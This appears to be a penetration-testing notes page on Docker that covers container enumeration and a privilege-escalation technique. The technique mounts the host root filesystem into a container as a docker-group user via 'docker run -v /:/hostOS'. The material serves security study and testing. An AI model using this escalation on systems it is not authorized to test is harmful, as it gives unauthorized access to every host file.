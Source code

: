 # Docker

## Enumeration

View running containers:

`docker ps`

find local docker images:

`docker image ls`

Check if we are inside a container by running \(if the file exists we are inside a docker\):

`ls -la /.dockerenv`

\`\`

## Privilege escalation

If we have a user which is part of the `docker` group we can mount the file system to the docker and see all files

mount the file system:

`docker run -v /:/hostOS -i -t [image name] bash`

* `-v /:/hostOS` - mount the host’s `/` as `/hostOS` inside the image
* `-i` - interactive
* `-t` - create a tty
* `[image name]` - the name of the image to run, got from `docker ps above`
* `bash` - command to run

